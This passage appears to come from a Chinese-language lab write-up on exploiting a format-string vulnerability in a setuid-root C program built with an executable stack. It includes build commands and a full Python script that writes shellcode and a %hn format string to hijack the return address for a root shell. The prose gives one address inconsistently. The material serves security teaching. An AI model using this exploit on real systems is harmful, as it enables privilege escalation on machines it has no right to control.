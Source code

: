 ```c

	badfile = fopen("badfile", "rb");
	fread(str, sizeof(char), 200, badfile);
	fmtstr(str);

	return 1;
}
```

编译漏洞程序的命令如下：

```bash
gcc -m32 -z execstack -o fmtvul_32 fmtvul.c
sudo chown root fmtvul_32
sudo chmod 4755 fmtvul_32
touch badfile
```

通过运行程序可知变量str的起始地址（我的机器为0xffffd164），可知main调用fmtstr时push到栈中的函数返回地址（frame pointer值加上4个字节，我的机器为0xffffd13c）。**假设我们将shellcode写入距离str偏移0x90的位置，即写入0xbfffd1f4。那么，我们就需要将shellcode的地址0xffffd1f4填充到返回地址0xffffd13c处，按照上一个实验%hn的填充方法，即需要先将0xd1f4写入到0xffffd13c，再将0xffff写入0xffffd13e（注意，先写较小的那个数，再写较大的那个数，因为已经打印的字符数量是单调递增的）。**

相应的脚本如下：

```python
#!/usr/bin/python3

import sys

shellcode = (
	"\x31\xc0\x31\xdb\xb0\xd5\xcd\x80"
	"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50"
	"\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00"
).encode('latin-1')

N = 200

content = bytearray(0x90 for i in range(N))
start = N - len(shellcode)
content[start:] = shellcode

addr1 = 0xffffd13c	
addr2 = 0xffffd13e
content[0:4] = (addr1).to_bytes(4, byteorder='little')
content[4:8] = ("@@@@").encode('latin-1')
content[8:12] = (addr2).to_bytes(4, byteorder='little')

small = 0xd1f4 - 12 - 19*8
large = 0xffff - 0xd1f4
s = "%.8x"*19 + "%." + str(small) + "x%hn%." + str(large) + "x%hn"
fmt = (s).encode('latin-1')
content[12:12+len(fmt)] = fmt

with open('badfile', 'wb') as wb:
	wb.write(content)
```

